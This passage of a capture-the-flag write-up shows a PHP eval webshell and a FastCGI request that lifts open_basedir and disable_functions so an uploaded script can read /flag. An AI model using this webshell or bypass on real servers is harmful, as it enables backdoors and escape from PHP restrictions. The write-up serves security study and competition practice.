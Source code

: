 ```
<?php
  restore_error_handler();
  error_reporting(E_ALL);
  eval($_REQUEST['cmd']);
?>
```

# open_basedir bypass

We use the following code to call the PHP FastCGI socket, we pass the code by POST to the webshell using `Content-Type: multipart/form-data;`.

<https://github.com/w181496/FuckFastcgi/blob/master/index.php>

```php
$client = new FCGIClient('127.0.0.1', 9000);

$params = array(       
        'GATEWAY_INTERFACE' => 'FastCGI/1.0',
        'REQUEST_METHOD'    => 'GET',
        'SCRIPT_FILENAME'   => '/tmp/uploads/p/t.php',
        'PHP_VALUE'         => 'open_basedir = /',
		'PHP_ADMIN_VALUE'   => 'disable_functions = ""'
        );

echo $client->request($params, NULL);
```

Previously we have uploaded the following code, which will be the one to be executed without restrictions.

```php
echo @file_get_contents('/flag');
```

Finally, if everything went right, we obtain the flag `ASIS{PHP_c0n574n75_4r3_S0_u53fU1l}`


# Remaining characters
Although the file name `Y0U_CANT_GUESS_THIS_THIS_5TUPLFGSGZYWXOKHINMBDWCKAGERCQJV.php` had quite a few of the characters we were missing to complete the alphabet and appears to have been done on purpose to help solve the test, it was not possible to use `__FILE__[0]` and no suitable alternative was found to obtain these characters.
